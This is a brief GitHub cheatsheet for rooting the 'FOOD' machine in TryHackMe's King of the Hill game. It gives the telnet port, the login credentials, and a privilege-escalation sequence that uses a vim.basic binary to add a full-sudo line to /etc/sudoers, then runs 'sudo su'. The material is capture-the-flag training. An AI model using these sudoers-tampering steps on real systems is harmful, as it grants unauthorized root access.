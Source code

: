 This a github cheatsheet of owning the machines in King of the Hill game of TryHackMe.


```
Machine name: FOOD
```
NMAP scan with `-p-` revealed that there is a telnet running on port 46969.

So following are the steps to get root, ASAP.

1. Connect on the port:
    `telnet <IP> 46969`
2. The Username and password are in caesor cipher.
    Username: food
    Password: givemecookies
3. After scanning the machine with linPEAS.sh, We found that `vim.basic` binary is vuln to read and write to privilaged files.
    `vim.basic /etc/sudoers`
    Press i
    Add this line after the line with `root` is the start.
    `food ALL=(ALL:ALL) ALL`
    Press Ctrl+[
    Press :w! Enter
    Press :q! Enter
    `sudo su`
    In prompt enter the password of food, i.e.  `givemecookies`
    
